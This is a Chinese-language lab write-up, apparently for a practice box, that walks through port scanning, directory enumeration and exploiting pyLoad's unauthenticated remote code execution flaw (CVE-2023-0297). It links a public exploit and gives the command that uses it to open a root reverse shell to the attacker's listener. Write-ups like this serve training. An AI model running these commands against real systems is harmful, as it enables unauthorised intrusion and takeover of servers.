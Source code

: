 ```yaml
---
description: Easy - Linux / pyLoad 0.5 / RCE / CVE-2023-0297
---
```


# ✔️ pyLoader

## 建立立足点

### 信息收集&#x20;

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和9666

```bash
nmap -sC -sV -p- -oA pyloader 192.168.183.26 --open
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

* 枚举9666端口上的隐藏文件/目录，依次查看无收获：

```bash
dirsearch -u http://192.168.183.26:9666 -x 404,403,401,302,301,400
```

<figure><img src="../../.gitbook/assets/2 (35).png" alt=""><figcaption></figcaption></figure>

* 检查9666端口发现是一个登录界面，尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/3 (32).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 该页面直接显示了当前正在运行的程序是pyLoad，直接搜索发现唯一一个公开漏洞：CVE-2023-0297 未认证的 PyLoad <0.5.0b3.dev31 远程代码执行

<figure><img src="../../.gitbook/assets/4 (33).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (33).png" alt=""><figcaption></figcaption></figure>

* Exploit： https://github.com/JacobEbben/CVE-2023-0297/blob/main/exploit.py

<figure><img src="../../.gitbook/assets/6 (33).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接利用该脚本即可获取到拥有root权限的反弹shell：

```bash
python3 exploit.py -t http://192.168.183.26:9666 -I 192.168.45.179 -P 4444
# 监听：
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/7 (33).png" alt=""><figcaption></figcaption></figure>
